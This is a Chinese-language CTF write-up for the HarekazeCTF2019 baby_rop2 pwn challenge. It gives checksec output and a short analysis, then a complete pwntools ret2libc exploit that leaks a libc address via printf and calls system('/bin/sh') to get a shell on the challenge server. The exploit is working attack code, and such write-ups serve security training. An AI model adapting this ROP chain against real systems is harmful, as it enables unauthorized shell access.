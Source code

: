 ```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019_baby_rop2
date: 2022-3-23 9:45:03
permalink: /pages/2e1547494524d196
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019_baby_rop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数及程序表如下

![HarekazeCTF2019_baby_rop2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/HarekazeCTF2019_baby_rop2_1.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - `plt`内无`system`
   - 无/`bin/sh`字符串
   - No PIE
2. 思路：
   - `ret2libc`做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop2/babyrop2'
io = remote('node4.buuoj.cn', 29266)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x20+8
pop_rdi_ret = 0x400733
pop_rsi_r15_ret = 0x400731
format_addr = 0x400770
printf_plt = elf.plt['printf']
libc_start_main_got = elf.got['__libc_start_main']
main_addr = elf.symbols['main']
payload = flat(['a'*padding, pop_rdi_ret, format_addr, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, printf_plt, main_addr])
io.sendafter("What's your name? ", payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libcbase = leak_libc_start_main-libc.dump('__libc_start_main')
system = libcbase+libc.dump('system')
bin_sh = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.sendafter("What's your name? ", payload)
io.interactive()
```